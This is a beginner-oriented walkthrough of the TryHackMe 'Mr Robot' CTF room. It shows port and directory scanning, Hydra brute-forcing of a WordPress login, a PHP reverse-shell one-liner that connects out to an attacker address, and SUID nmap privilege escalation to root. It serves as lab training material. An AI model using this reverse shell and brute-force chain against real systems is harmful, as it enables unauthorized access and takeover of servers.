TryHackMe | Mr Robot CTF

☍ Room Link - "https://tryhackme.com/room/mrrobot"
Hello fellow hackers, learners, and security enthusiasts! 💻
Welcome to my corner of the internet where I document my path through the exciting world of penetration testing and cybersecurity. Whether you're here to follow along, learn together, or just curious about ethical hacking - I'm glad you stopped by!
Introduction
This writeup walks through the "Mr Robot CTF" challenge from TryHackMe. You'll follow a step-by-step journey from initial reconnaissance to full system compromise, including the real-world trial and errors encountered along the way.
𖤐 In this guide, you'll learn:
- Basic enumeration techniques using nmap and gobuster
- Password brute-forcing with hydra
- Web application testing with Burp Suite
- Gaining initial access via a PHP reverse shell
- Cracking md5 hash using https://crackstation.net/ website
- Privilege escalation by exploiting SUID binaries
Grab a coffee and let's get started! ☕
📋 Machine Tasks -
Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?
Reconnaissance
Nmap Scan Results : -
First, I started with a basic nmap scan -
➥ $ nmap -sCV 10.10.56.24
Nmap scan report for 10.10.56.24
Host is up (0.016s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 84:99:90:ef:f2:b0:51:3f:2a:d5:d9:51:11:e4:c7:5d (RSA)
| 256 0d:3b:5e:ca:86:06:7d:40:82:f5:d2:be:7b:8f:24:d4 (ECDSA)
|_ 256 75:5a:b0:ef:43:4f:17:52:9e:da:f5:53:73:ee:25:2e (ED25519)
80/tcp open http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after: 2025-09-13T10:45:03
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.22 seconds
𖤐 Command Explanation -
- nmap, network exploration tool and security / port scanner.
- -sC, for default script.
- -sV , for service/version info.
- The above command will scan the first 1000 ports.
- read more "https://manpages.ubuntu.com/manpages/trusty/en/man1/nmap.1.html"
From the above scan result, we can see that an 'Apache' web server is running and we can access it through 'port 80 (http) and port 443 (https)'. Also, 'OpenSSH' on port 22.
First, Let's visit the web page. Paste "http://MACHINE_IP/" in the browser and check all the mentioned commands there. You will be surprised !!!
Till now, I got nothing to start with. From the above link, I can see some nice videos, pictures, and messages from 'mr. robot'.
Next, I performed directory enumeration using gobuster (Other tools we can use - 'dirb' , 'ffuf') to map out the website's structure and identify potentially interesting files for further investigation.
gobuster Scan Results : -
➥ $ gobuster dir -u http://10.10.56.24 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -s 200,301 -b ""
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.56.24
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Status codes: 200,301
[+] User Agent: gobuster/3.8.2
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
0 (Status: 301) [Size: 0] [--> http://10.10.56.24/0/]
Image (Status: 301) [Size: 0] [--> http://10.10.56.24/Image/]
admin (Status: 301) [Size: 234] [--> http://10.10.56.24/admin/]
atom (Status: 301) [Size: 0] [--> http://10.10.56.24/feed/atom/]
audio (Status: 301) [Size: 234] [--> http://10.10.56.24/audio/]
blog (Status: 301) [Size: 233] [--> http://10.10.56.24/blog/]
css (Status: 301) [Size: 232] [--> http://10.10.56.24/css/]
favicon.ico (Status: 200) [Size: 0]
feed (Status: 301) [Size: 0] [--> http://10.10.56.24/feed/]
images (Status: 301) [Size: 235] [--> http://10.10.56.24/images/]
image (Status: 301) [Size: 0] [--> http://10.10.56.24/image/]
index.html (Status: 200) [Size: 1188]
index.php (Status: 301) [Size: 0] [--> http://10.10.56.24/]
intro (Status: 200) [Size: 516314]
js (Status: 301) [Size: 231] [--> http://10.10.56.24/js/]
license (Status: 200) [Size: 309]
page1 (Status: 301) [Size: 0] [--> http://10.10.56.24/]
rdf (Status: 301) [Size: 0] [--> http://10.10.56.24/feed/rdf/]
readme (Status: 200) [Size: 64]
render/https://www.google.com (Status: 301) [Size: 0] [--> http://10.10.56.24/render/https:/www.google.com]
render?url=https://www.google.com (Status: 301) [Size: 0] [--> http://10.10.56.24/render%3Furl=https:/www.google.com]
robots (Status: 200) [Size: 41]
robots.txt (Status: 200) [Size: 41]
rss (Status: 301) [Size: 0] [--> http://10.10.56.24/feed/]
rss2 (Status: 301) [Size: 0] [--> http://10.10.56.24/feed/]
sitemap (Status: 200) [Size: 0]
sitemap.xml (Status: 200) [Size: 0]
video (Status: 301) [Size: 234] [--> http://10.10.56.24/video/]
wp-admin (Status: 301) [Size: 237] [--> http://10.10.56.24/wp-admin/]
wp-content (Status: 301) [Size: 239] [--> http://10.10.56.24/wp-content/]
wp-config (Status: 200) [Size: 0]
wp-includes (Status: 301) [Size: 240] [--> http://10.10.56.24/wp-includes/]
wp-cron (Status: 200) [Size: 0]
wp-load (Status: 200) [Size: 0]
wp-login (Status: 200) [Size: 2664]
wp-links-opml (Status: 200) [Size: 227]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
Well, it's a very long list although I have filtered the search results. Let's understand the above step -
Command Explanation -
- gobuster basic directory scan - gobuster dir -u {URL} -w {WORDLIST} will filters out status code 404 by default.
- Using -s 200,301 tells gobuster to only show these specific status codes.
- However, this conflicts with the default 404 blacklist, so I used -b "" to clear all blacklists.
- Alternatively, you can use -fs 403,501 to add status codes to the default blacklist instead of replacing it.
- Read More about the status codes - "https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status".
Exploitation
With numerous directories and files discovered, I first prioritized those returning '200' status codes for investigation. While I'll walk through my successful approach below, I encourage you to explore the other findings - there are often multiple paths to compromise a system!
After visiting - "http://10.10.56.24/robots.txt", I can see two files 'fsocity.dic' (a wordlist) and 'key-1-of-3.txt' (first flag)
☝️ Interestingly, we can directly access files like http://10.10.56.24/fsocity.dic and http://10.10.56.24/key-1-of-3.txt, yet they didn't appear in our gobuster results. This suggests one of three scenarios in normal gobuster scans :
- Missing from wordlist- The filenames aren't in our wordlist (most likely)
- File extension issue- gobuster might not be checking for these specific extensions
- Status code filtering- We might have filtered out their response codes (least likely)
First Flag - I have visited http://10.10.56.24/key-1-of-3.txt and got the key 1 (first flag).
For the next phase, we have two viable approaches:
- Method 1: The Quick Path - Visit http://10.10.56.24/license and scroll to the bottom to find a base64 encoded string. Decoding it reveals credentials in username:password format.
- Method 2: The Learning Path - A more comprehensive approach using Burp Suite for request analysis and Hydra for brute-forcing. This method takes longer but provides valuable practice with essential tools.
After decoding the credentials from 'Method 1', I have tried to login with ssh. But, it's not the correct credentials for ssh. So, we have to find other login vectors.
Or, after downloading the 'fsocity.dic' file using wget for 'Method 2', we need a login option where we can test the provided wordlist.
Well, we do have a login page which is wp-login (wordpress login page) from gobuster scan. At this point, if you are following the Method 1, you can simply enter the username and password. If you are following Method 2, then be ready to learn some interesting techniques.
Method 2 (Optional) -
If we visit "http://10.10.56.24/wp-login.php" , we can find the below login page. I have tried with 'admin' as Username and 'password' as Password. But, that was incorrect credentials and i got an error 'ERROR: Invalid username'.
☝️ Our first objective is to identify a valid username. If the application has poor error handling, we should see a different error message when we guess correctly. This behavioral difference becomes our clue. Once we have a valid username, we'll pivot to our second objective: brute-forcing the password.
I've used FoxyProxy to route all browser traffic through Burp Suite, where I've enabled interception to capture the requests. (Note: First-time users need to configure FoxyProxy with Burp Suite's proxy settings - typically localhost:8080)
First, fire-up the 'burpsuite' > 'proxy' > 'Intercept' > 'Intercept on' -
Next, visit "http://10.10.56.24/wp-login.php" and from 'extensions' select 'Burp' (whatever name you have given during configuration). Enter 'admin' as Username and 'password' as Password. Finally, click the login button.
From burpsuite , we can verify it -
Let's focus on the 'Request' section -
What we need for hydra (for brute forcing) from the above outputs ?
- It's an post request
- End-point (path to target) - /wp-login.php
- It's sending 'log' as parameter for Username and 'pwd' as parameter for Password
- Finally, the error message we have seen before due to incorrect login attempt
☝️ Note : Basically, The Username/Password field we have seen in the login page are just normal placeholders. In backend, most of the time the server is looking for the respective parameter / input field names. So, when targeting/bruteforcing with hydra we will use log/pwd instead of Username/Password.
Bruteforcing Username with hydra using the given wordlist -
➥ $ hydra -L fsocity.dic -p pass 10.10.56.24 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.56.24:80/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username
[80][http-post-form] host: 10.10.56.24 login: Elliot password: pass
Well, that's a success. We got the correct Username - 'Elliot'. Let's understand the above command -
Command Explanation -
- -L: Username wordlist (variable input)
- -p: Single password to test (fixed value)
- http-post-form: Specifies we're attacking a POST form
- /wp-login.php: Target login page path
- log=^USER^&pwd=^PASS^: Form parameters where ^USER^ and ^PASS^ are Hydra's injection points
- F=Invalid username: Failure string - Hydra knows a attempt failed when this message appears
Now, if we visit the login page again and try to login with the correct Username even with the wrong Password we can see a different error message this time -
Bruteforcing Password with hydra using the given wordlist (shortened list) -
Note : This is a bit time-consuming step with 858,160 words in the given wordlist. You have two options:
- Run the full brute-force and wait for completion
- Use a shortcut: Extract the last 1,000 lines and test with that shortened list first. You can get this by running $ tail -1000 fsocity.dic > short_list.txt from terminal. The password is likely in the latter portion of the wordlist (based on my experience).
➥ $ hydra -l Elliot -P short.txt 10.10.56.24 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000 login tries (l:1/p:1000), ~63 tries per task
[DATA] attacking http-post-form://10.10.56.24:80/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username
[80][http-post-form] host: 10.10.56.24 login: Elliot password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Success! We've obtained the correct password. Now let's break down the Hydra command syntax -
- -l and -p , we can use where we want to specify the Username and Password respectively
- -L and -P , we can use where we want to brute-force the Username and Password respectively
- also updated the failure string to match the actual error message from the login attempts.
Logged in with correct credentials from the last steps -
From Dashboard, I can see this message "WordPress 4.3.1 running href="http://10.10.192.234/wp-admin/themes.php" Twenty Fifteen theme". I have checked the Appearance > Themes , and it reveals the same.
☝️ I selected 404.php for simplicity, as it's readily accessible. You can also experiment with other PHP templates from the sidebar, but you'll need to identify the correct file paths to execute your arbitrary commands through those templates.
- Replace and update the 404.php with the php reverse shell contents from "pentestmonkey". Check here - "https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php".
- Or, edit and update the 404.php with only one liner payload,
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'. Find More - "https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python".
☝️ Important: Remember to replace ATTACKER_IP and PORT in the commands with your actual machine's IP address and chosen listener port. And finally, update the file.
I have started a listener on port 4242 inside terminal and visited a random link fro example - "http://10.10.56.24/abc" , which is not exist for this particular website.
Finally, we got a shell -
Initial Access
Next, I checked the /home directory and got robot and ubuntu users home directory. Inside /home/robot , I got two files to inspect (check the output below). For, key-2-of-3.txt file, only the file owner (robot) can read it. But, for password.raw-md5 file, anyone can read it and the file owner can only write it. Read more about 'Linux File Permissions' here - "https://www.redhat.com/en/blog/linux-file-permissions-explained" or "https://linuxhandbook.com/linux-file-permissions/.
Cracking the md5 hash - https://crackstation.net/
Back to our reverse shell -
Explanation : -
- Upgraded a shell using Python 3 - python3 -c 'import pty; pty.spawn("/bin/bash")'. This will create a more interactive shell environment.
- cd /home/robot - Changed our working directory
- su robot, Switch-user / change current user as 'robot' with it's password.
- Finally, whoami - verify the username and read the content from key 2 file (second flag).
Privilege Escalation
To access the third key file located in /root (the root user's home directory), we need to escalate our privileges from the 'robot' user to 'root'.
I started with the command find / -perm -4000 2>/dev/null to identify SUID binaries - these are executables that run with the file owner's permissions, regardless of who executes them.
The discovery of /usr/local/bin/nmap was particularly interesting, as this directory is typically empty in standard Linux distributions. This suggested a custom binary was placed there intentionally.
Checking GTFOBins revealed this specific nmap version could be exploited for privilege escalation.
https://gtfobins.github.io/gtfobins/nmap/
From the shell, I tried to execute the commands from GTFOBins and finally got the root shell. Now, we can read our final key (Third Flag)
💻 Happy Hacking 💻